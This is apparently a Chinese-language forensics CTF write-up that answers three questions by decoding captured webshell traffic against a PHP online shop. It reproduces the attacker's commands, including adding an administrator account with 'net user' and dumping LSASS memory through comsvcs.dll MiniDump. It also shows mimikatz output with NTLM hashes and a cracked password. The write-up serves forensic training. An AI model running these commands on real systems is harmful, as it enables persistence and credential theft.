


# 第六章 流量特征分析 - 蚂蚁爱上树

## 1

> 管理员 Admin 账号的密码是什么？

追踪流量过程中，发现 webshell 交互流量



对流量进行分析解码，得到交互

```shell
$ cd /d "C:/phpStudy/PHPTutorial/WWW/onlineshop"&ls&echo [S]&cd&echo [E]
[S]
C:\phpStudy\PHPTutorial\WWW\onlineshop
[E]
7d32eb2bb
```

追踪流量，解码攻击者的操作过程

```shell
$ cd /d "C:/phpStudy/PHPTutorial/WWW/onlineshop"&ls&echo [S]&cd&echo [E]
[S]
C:\phpStudy\PHPTutorial\WWW\onlineshop
[E]
7d32eb2bb
$ cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&dir&echo [S]&cd&echo [E]
 C:\phpStudy\PHPTutorial\WWW\onlineshop ......

2023/10/19  12:31    <DIR>          .
2023/10/19  12:31    <DIR>          ..
2022/09/28  00:47                50 .gitattributes
2022/09/28  00:47    <DIR>          .github
2022/09/28  00:47            26,083 action.php
2022/09/28  00:47    <DIR>          admin
2022/09/28  00:47            21,774 body.php
2022/09/28  00:47               206 cart.php
2022/09/28  00:47             8,148 checkout.php
2022/09/28  00:47             2,693 checkout_process.php
2022/09/28  00:47                63 CNAME
2022/09/28  00:47             2,973 config.php
2022/09/28  00:47    <DIR>          css
2022/09/28  00:47    <DIR>          database
2023/10/19  11:59               276 db.php
2022/09/28  00:47               180 error.php
2022/09/28  00:47    <DIR>          fonts
2022/09/28  00:47             5,691 footer.php
2022/09/28  00:47            11,771 header.php
2022/09/28  00:47             5,892 homeaction.php
2022/09/28  00:47    <DIR>          img
2022/09/28  00:47               108 index.php
2022/09/28  00:47    <DIR>          js
2022/09/28  00:47            11,351 LICENSE
2022/09/28  00:47             4,256 login.php
2022/09/28  00:47               257 logout.php
2022/09/28  00:47             8,453 myorders.php
2022/09/28  00:47             1,317 newslettter.php
2022/09/28  00:47             1,656 offersmail.php
2022/09/28  00:47             2,761 order_successful.php
2022/09/28  00:47             2,802 payment_success.php
2022/09/28  00:47            14,879 product.php
2023/10/19  12:30                31 product2.php
2022/09/28  00:47             3,828 products.php
2022/09/28  00:47    <DIR>          product_images
2022/09/28  00:47             7,500 README.md
2022/09/28  00:47             3,764 register.php
2022/09/28  00:47             1,159 review.php
2022/09/28  00:47             6,838 review_action.php
2022/09/28  00:47    <DIR>          screenshot
2022/09/28  00:47             5,319 signin_form.php
2022/09/28  00:47             4,454 signup_form.php
2022/09/28  00:47             3,751 store.php
2022/09/28  00:47                84 topheader
2022/09/28  00:47               206 wishlist.php
2022/09/28  00:47                26 _config.yml
              35 ......        170,600 ....
              11 ......  1,584,734,208 ........
[S]
C:\phpStudy\PHPTutorial\WWW\onlineshop
[E]
200d58f72
$ cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
administrators
....     ............../........................

....

-------------------------------------------------------------------------------
Administrator
VULNTARGET\Domain Admins
VULNTARGET\win101
win10
..............

[S]
C:\phpStudy\PHPTutorial\WWW\onlineshop
[E]
15d52e5c65
$ cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net user admin Password1 /add&echo [S]&cd&echo [E]
......
```

定位到

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net user admin Password1 /add&echo [S]&cd&echo [E]
```

```flag
flag{Password1}
```

## 2

> LSASS.exe 的程序进程 ID 是多少？

定位到



```shell
$ cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
[S]
C:\phpStudy\PHPTutorial\WWW\onlineshop
[E]
7c1f43cd
```

根据 `MiniDump` 传入的参数 `852` 可以得到答案

```flag
flag{852}
```

## 3

> 用户 WIN101 的密码是什么?

在流量中，可以抓到获取 `C:/Temp/OnlineShopBack.zip` 文件的流量


文件头很明显的 Process Dump，将其进行导出后


使用 `mimikatz` 进行分析

```shell
SID               : S-1-5-21-3374851086-947483859-3378876003-1103
        msv :
         [00000003] Primary
         * Username : win101
         * Domain   : VULNTARGET
         * NTLM     : 282d975e35846022476068ab5a3d72df
         * SHA1     : bc9ecca8d006d8152bd51db558221a0540c9d604
         * DPAPI    : 8d6103509e746ac0ed9641f7c21d7cf7
        tspkg :
        wdigest :
         * Username : win101
         * Domain   : VULNTARGET
         * Password : (null)
        kerberos :
         * Username : win101
         * Domain   : VULNTARGET.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2023/10/19 11:26:36
SID               : S-1-5-17
```

对得到的 `NTLM` 哈希 `282d975e35846022476068ab5a3d72df`在线查表


```flag
flag{admin#123}
```
